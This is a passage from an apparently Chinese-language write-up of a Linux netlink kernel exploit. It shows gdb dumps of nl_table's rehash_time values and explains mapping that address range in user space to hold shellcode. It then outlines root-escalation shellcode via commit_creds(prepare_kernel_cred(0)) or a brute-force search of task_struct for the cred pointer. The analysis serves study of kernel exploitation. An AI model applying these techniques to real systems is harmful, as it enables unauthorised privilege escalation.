 	static struct netlink_table *nl_table;

struct netlink_table + 4的位置是nl_table->hash.rehash_time，他表示下次重新计算hash值的时间，数据类型是jiffies值。他的值初始时候等于jiffies，之后每次变化等于jiffies + 10 * 60 * HZ，HZ一般等于1000。下面是我记录的几个值（由于在虚拟机中调试，中途有暂停虚拟机，期间jiffies也停止了，不过这个不重要^_^）

| 时间点      | 值（红色标注的值）                                  |
| ---------  | ------------------------------------------------ |
| 16:30      | (gdb) x/2x 0xc1a488e4 <-- nl_table指针
|            | 0xc1a488e4: 0xf5c41000 0x00000101
|            | (gdb) x/2x 0xf5c41000  <-- nl_table->hash指针
|            | 0xf5c41000: 0xf52da900 `0x00013809`
| 20:00      | (gdb) x/2x 0xf5c41000
|            | 0xf5c41000: 0xf2858360 `0x0004ae48`
| 21:30      | (gdb) x/2x 0xf5c41000
|            | 0xf5c41000: 0xf2858b60 `0x000a4ee9`
| 22:50      | (gdb) x/2x 0xf5c41000
|            | 0xf5c41000: 0xf0e6ce00 `0x0021bfa4`
| Day2,10:11 | (gdb) x/2x 0xf5c41000
|            | 0xf5c41000: 0xe9cd8080 `0x0039ff85`

大牛的exploit中把这个值认为是0x10000 – 0x130000之间即可。这里简单说明一下Linux系统上内存虚拟地址的分布情况，我们以32位系统为例: 可以寻址4G的地址空间，其中用户态使用低位的3G，即0x00000000-0xBFFFFFFF，内核使用高位的1G，即0xC0000000 – 0xFFFFFFFF。在Ring3进程只能访问用户态地址空间，在内核上下文中是可以访问全部的4G的地址范围的。经过分析nl_table->hash.rehash_time变量的值正好可以落到用户地址空里，这样我们可以用mmap映射这些地址，并将shellcode拷贝到这块内存中，等待漏洞触发。

## 0x02 内核Shellcode

这里的shellcode是在内核进程上下文中运行的。我们的目标是要修改current->cred，先列出两个方案。

- 方案一：使用内核函数**commit_creds**和**prepare_kernel_cred**

		commit_creds(prepare_kernel_cred(0));

这需要查找这两个函数的地址才行，不过普通账户可能没有访问/proc/kallsyms的权限，比如我的系统返回的结果如下：

	macwe@ubuntu:/root$ grep nl_table /proc/kallsyms 
	00000000 d nl_table_lock
	00000000 d nl_table_wait
	00000000 b nl_table_users
	00000000 b nl_table
	macwe@ubuntu:/root$ cat /proc/sys/kernel/kptr_restrict
	1
	/* 相关资料：http://lwn.net/Articles/420403/ */

- 方案二：暴力搜索,在struct task_struct 中动态查找cred变量的位置并修改之。通常real_cred和cred指针是一样的，通过这一点来查找cred的内存位置。
